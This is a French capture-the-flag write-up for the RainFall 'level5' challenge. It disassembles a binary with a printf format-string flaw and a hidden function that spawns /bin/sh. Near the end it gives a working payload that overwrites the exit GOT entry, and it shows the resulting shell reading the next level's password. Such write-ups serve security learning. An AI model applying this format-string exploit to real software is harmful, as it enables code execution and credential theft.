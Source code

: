 ## Analyse

```
(gdb) disas main
Dump of assembler code for function main:
   0x08048504 <+0>:	push   ebp
   0x08048505 <+1>:	mov    ebp,esp
   0x08048507 <+3>:	and    esp,0xfffffff0
   0x0804850a <+6>:	call   0x80484c2 <n>
   0x0804850f <+11>:	leave  
   0x08048510 <+12>:	ret    
End of assembler dump.
(gdb) info functions
All defined functions:
(gdb) disas main
Dump of assembler code for function main:
   0x08048504 <+0>:	push   ebp
   0x08048505 <+1>:	mov    ebp,esp
   0x08048507 <+3>:	and    esp,0xfffffff0
   0x0804850a <+6>:	call   0x80484c2 <n>
   0x0804850f <+11>:	leave  
   0x08048510 <+12>:	ret    
End of assembler dump.
(gdb) info functions
All defined functions:

Non-debugging symbols:
0x08048334  _init
0x08048380  printf
0x08048380  printf@plt
0x08048390  _exit
0x08048390  _exit@plt
0x080483a0  fgets
0x080483a0  fgets@plt
0x080483b0  system
0x080483b0  system@plt
0x080483c0  __gmon_start__
0x080483c0  __gmon_start__@plt
0x080483d0  exit
0x080483d0  exit@plt
0x080483e0  __libc_start_main
0x080483e0  __libc_start_main@plt
0x080483f0  _start
0x08048420  __do_global_dtors_aux
0x08048480  frame_dummy
0x080484a4  o
0x080484c2  n
0x08048504  main
0x08048520  __libc_csu_init
0x08048590  __libc_csu_fini
0x08048592  __i686.get_pc_thunk.bx
0x080485a0  __do_global_ctors_aux
0x080485cc  _fini
(gdb) disas n
Dump of assembler code for function n:
   0x080484c2 <+0>:	push   ebp
   0x080484c3 <+1>:	mov    ebp,esp
   0x080484c5 <+3>:	sub    esp,0x218
   0x080484cb <+9>:	mov    eax,ds:0x8049848
   0x080484d0 <+14>:	mov    DWORD PTR [esp+0x8],eax
   0x080484d4 <+18>:	mov    DWORD PTR [esp+0x4],0x200
   0x080484dc <+26>:	lea    eax,[ebp-0x208]
   0x080484e2 <+32>:	mov    DWORD PTR [esp],eax
   0x080484e5 <+35>:	call   0x80483a0 <fgets@plt>
   0x080484ea <+40>:	lea    eax,[ebp-0x208]
   0x080484f0 <+46>:	mov    DWORD PTR [esp],eax
   0x080484f3 <+49>:	call   0x8048380 <printf@plt>
   0x080484f8 <+54>:	mov    DWORD PTR [esp],0x1
   0x080484ff <+61>:	call   0x80483d0 <exit@plt>
End of assembler dump.
(gdb) disas o
Dump of assembler code for function o:
   0x080484a4 <+0>:	push   ebp
   0x080484a5 <+1>:	mov    ebp,esp
   0x080484a7 <+3>:	sub    esp,0x18
   0x080484aa <+6>:	mov    DWORD PTR [esp],0x80485f0
   0x080484b1 <+13>:	call   0x80483b0 <system@plt>
   0x080484b6 <+18>:	mov    DWORD PTR [esp],0x1
   0x080484bd <+25>:	call   0x8048390 <_exit@plt>
End of assembler dump.
(gdb) x/s 0x80485f0
0x80485f0:	 "/bin/sh"

```

## Exploit

L'attaque ici est une autre attaque par chaîne de format. Mais cette fois, nous devons rediriger la fonction exit vers une autre fonction cachée o. Pour ce faire, nous pouvons utiliser la GOT (Global Offset Table). La Global Offset Table est une table d'adresses de fonctions qui sont liées de manière dynamique et est utilisée pour résoudre l'adresse d'une fonction à l'exécution. Tout ce que nous avons à faire est de trouver le décalage, trouver l'adresse de `exit`, `o`, et injecter notre valeur dans la fonction `printf`.

```(gdb) disas o
Dump of assembler code for function o:
   0x080484a4 <+0>:    push   ebp
   0x080484a5 <+1>:    mov    ebp,esp
   0x080484a7 <+3>:    sub    esp,0x18
   0x080484aa <+6>:    mov    DWORD PTR [esp],0x80485f0
   0x080484b1 <+13>:   call   0x80483b0 <system@plt>
   0x080484b6 <+18>:   mov    DWORD PTR [esp],0x1
   0x080484bd <+25>:   call   0x8048390 <_exit@plt>
End of assembler dump.
```

```
(gdb) disas 0x80483d0
Dump of assembler code for function exit@plt:
   0x080483d0 <+0>:    jmp    DWORD PTR ds:0x8049838 <===
   0x080483d6 <+6>:    push   0x28
   0x080483db <+11>:   jmp    0x8048370
End of assembler dump.

```

```
level5@RainFall:~$ ./level5 
AAAA %p %p %p %p %p %p %p %p %p %p
AAAA 0x200 0xb7fd1ac0 0xb7ff37d0 0x41414141 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070
```

- Adresse de `exit`: `0x8049838`
- Adresse de `o`: `0x080484a4`
- Offset: 4

On convertit l'adresse de `o` en decimal puis on osustrait l'offset pour savoir combien d'octets on doit ecrire pour atteindre exit `exit` GOT entry.

```
(python -c 'print "\x38\x98\x04\x08" + "%134513824d" + "%4$n"'; cat) | ./level5
[...snip...]
whoami
level6
cat /home/user/level6/.pass
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```
